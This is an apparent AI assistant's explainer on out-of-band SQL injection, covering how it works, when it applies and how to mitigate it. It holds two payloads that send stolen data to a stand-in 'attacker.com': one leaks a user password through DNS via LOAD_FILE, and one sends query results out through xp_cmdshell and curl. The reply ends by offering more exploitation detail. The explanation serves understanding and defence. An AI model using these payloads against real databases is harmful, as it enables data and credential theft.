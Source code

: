 

It looks like you're referring to **Out-of-Band SQL Injection (OOB SQLi)**, which is a type of SQL injection attack where the attacker retrieves data from a database by leveraging external network channels (like DNS, HTTP requests, or other protocols) rather than directly through the application's response.

### **Key Concepts of Out-of-Band SQLi:**
1. **How it Works**:
   - The attacker injects malicious SQL queries that force the database to make an outbound request (e.g., DNS lookup, HTTP call) containing stolen data.
   - The attacker monitors an external server they control to capture the exfiltrated data.

2. **When Used**:
   - When traditional **In-Band (Error-Based/Union-Based)** or **Blind SQLi** techniques don't work.
   - When the database has functions that allow external network interactions (`LOAD_FILE()`, `UTL_HTTP`, `xp_cmdshell`, etc.).

3. **Example Techniques**:
   - **DNS Exfiltration**:  
     ```sql
     SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\share\\file.txt'));
     ```
     The database makes a DNS request to `<stolen-data>.attacker.com`, which the attacker logs.

   - **HTTP Requests**:  
     ```sql
     DECLARE @data VARCHAR(1024); 
     SET @data = (SELECT TOP 1 column_name FROM table_name); 
     EXEC('xp_cmdshell ''curl http://attacker.com/?data=' + @data + '''');
     ```

4. **Mitigation**:
   - Disable unnecessary database functions (`xp_cmdshell`, `UTL_HTTP`).
   - Use parameterized queries/prepared statements.
   - Implement strict firewall rules to block outbound requests from databases.
   - Monitor unusual DNS/HTTP traffic from DB servers.

Would you like a deeper dive into exploitation techniques or detection methods?
